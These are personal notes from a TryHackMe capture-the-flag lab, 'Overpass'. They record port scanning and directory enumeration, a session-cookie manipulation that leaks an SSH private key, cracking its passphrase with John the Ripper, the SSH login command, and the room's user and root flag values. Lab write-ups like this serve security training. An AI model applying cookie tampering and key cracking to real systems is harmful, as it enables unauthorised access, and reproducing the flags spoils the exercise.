 # TryHack ME room - Overpass Notes

> Kartik Bhushan
> April 17-04-2022

------------------------------------------------

## IP Address - 10.10.144.231 and 10.10.36.158

## Nmap Scan - 
```
FileName - Scanresults



Ports - 80, 22 
80 - Http page
22 - SSH
```


## Running Gobuster/dirbuster - Port 80 
```
/admin - has login.js with custom login script .

Login script source code indicated manipulation of sessioncookie can be done


Upon manipulation - spits out the RSA private key 

Stored in id_rsa
```

## Running Johntheripper
```
sudo john --wordlist=/opt/wordlist/rockyou.txt johnphrase.txt 
[sudo] password for kali: 
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 3 OpenMP threads
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
james13          (id_rsa)     
1g 0:00:00:00 DONE (2022-04-17 09:19) 25.00g/s 334200p/s 334200c/s 334200C/s pink25..jackets
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

## Passphrase - james13

## SSH - ssh -i id_rsa James@10.10.114.231 



# 1.Hack the machine and get the flag in user.txt
```
thm{65c1aaf000506e56996822c6281e6bf7}
```

# 2.Escalate your privileges and get the flag in root.txt
```
thm{7f336f8c359dbac18d54fdd64ea753bb}
```


